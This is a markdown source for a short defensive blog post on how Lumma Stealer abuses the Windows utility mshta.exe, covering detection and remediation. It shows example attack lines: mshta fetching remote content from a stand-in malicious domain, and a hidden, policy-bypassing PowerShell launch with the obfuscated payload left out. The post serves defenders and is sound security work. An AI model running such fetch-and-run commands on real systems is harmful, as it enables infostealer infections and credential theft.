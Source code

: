 ```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection.

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user. Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```

**Detection**

Another potential detection opportunity would be to check when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. These are indicators of potentially malicious behavior.

**Remediation**

Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain(s) used in the attack
- Deleting the phishing email or url responsible for the initial infection

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.


{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
